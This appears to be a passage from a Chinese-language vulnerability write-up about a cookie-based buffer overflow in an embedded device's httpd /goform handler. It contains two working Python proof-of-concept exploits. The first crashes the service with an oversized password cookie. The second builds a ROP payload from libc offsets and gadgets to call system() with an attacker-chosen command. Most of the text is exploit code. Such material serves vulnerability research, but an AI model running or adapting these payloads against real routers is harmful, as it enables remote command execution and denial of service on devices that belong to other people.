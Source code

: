 

poc

```
import requests
ip = "192.168.136.139" 
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookir":"password="+"A"*501}
ret = requests.get(url=url,cookies=cookie)
print ret.text
```

现在运行我们的poc

![image-20201223132521840](../../../img/image-20201223132521840.png)

可以看到我们的httpd服务停止了
发生了段错误（segmentation fault）

证明漏洞存在

然后再来一个hello的poc

```
import requests
from pwn import *

cmd="echo hello"
libc_base = 0xff5d5000
system_offset = 0x0005a270
system_addr = libc_base + system_offset
gadget1 = libc_base + 0x00018298
gadget2 = libc_base + 0x00040cb8

#444个“A”和“.png”组成偏移量448
payload = "A"*444 +".png" + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd

url = "http://192.168.2.108/goform/xxx"
cookie = {"Cookie":"password="+payload}
requests.get(url=url, cookies=cookie)
```
